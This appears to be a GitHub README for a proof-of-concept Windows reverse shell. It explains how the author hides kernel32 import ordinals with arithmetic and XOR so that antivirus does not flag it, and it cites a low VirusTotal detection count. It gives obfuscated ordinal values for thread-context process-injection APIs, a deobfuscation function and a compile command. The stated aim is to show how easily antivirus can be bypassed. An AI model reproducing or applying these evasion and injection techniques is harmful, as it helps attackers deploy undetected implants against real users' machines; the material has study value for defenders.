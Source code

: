 # Proof of concept reverse shell with mixed boolean arithmetics
![](https://github.com/tanc7/mixedbooleanarithmeticspayload/raw/main/Screenshot%20from%202023-03-19%2018-55-09.png)

All I did was execute ordinal-loading using the MAKEINTRESOURCE macro. I took the ordinal, and added 4096 1's to it, and then subtracted 4096 1's to deobfuscate it.

5/69 detections Sun Mar 19 07:03:18 PM PDT 2023

https://www.virustotal.com/gui/file/ec9506794c9b622afdcc74e2c70b49020c0b2cebb4819d08d0ec6ceb5573339e/behavior

# Resources used

1. PE-Bear
2. Any IDE is fine
3. learn.microsoft.com

# Compile

`x86_64-w64-mingw32-g++ -lwsock32 -lws2_32 revshell.cpp`

# Why cant you compile it?

I don't want it flagged as malware on Github. Use this as a learning tool.

# Notes

This is not real "mixed boolean arithmetics". It's just arithmetics actually.

1. I did not use bitwise operators to further obfuscate my ordinals
2. I did not use more convoluted tricks like shifting the bits or rotating them
3. I kept it simple to demonstrate how to easily bypass antivirus

# Applying simple mixed boolean arithmetics to a example implant (ThreadContext Injection)

# Combination of IAT-hiding and ordinal load via mixed boolean arithmetics
Use multiples of 0x1000 to ordinal load these and XOR it back

1. XOR out the value to a multiple of 0x1000
2. Compute the value of that multiple in a for-loop
3. The final ordinal is resolved as the ordinals listed below
4. Remember these are functions from kernel32.dll

# (WriteProcessMemory) Remember that 99 is decimal, not hex, so #define XORKEY 99
0x637 + 0x2000 = 0x2637^99 = 0x2654
# (VirtualAllocEx)
0x5e3 + 0x2000 = 0x25e3^99 = 0x2580
# SetThreadContext
0x56f p/x (0x2000+0x56f)^99 = 0x250c
# SuspendThread
0x5a1 p/x (0x2000+0x5a1)^99 = 0x25c2
# GetThreadContext
0x30d p/x (0x2000+0x30d)^99 = 0x236e 
# SetThreadContext
0x56f p/x (0x2000+0x56f)^99 = 0x250c
# CreateToolhelp32Snapshot
0x108 p/x (0x2000+0x108)^99 = 0x216b

# Example deobfuscator before MAKEINTRESOURCE macro is used.
```
#define XORKEY 99

int deobfuscate(int x) {
    x ^= 99;
    for (int i = 0; i < 0x2000; i++) {
        x -= 0x1;
    }
    return x;
}

```
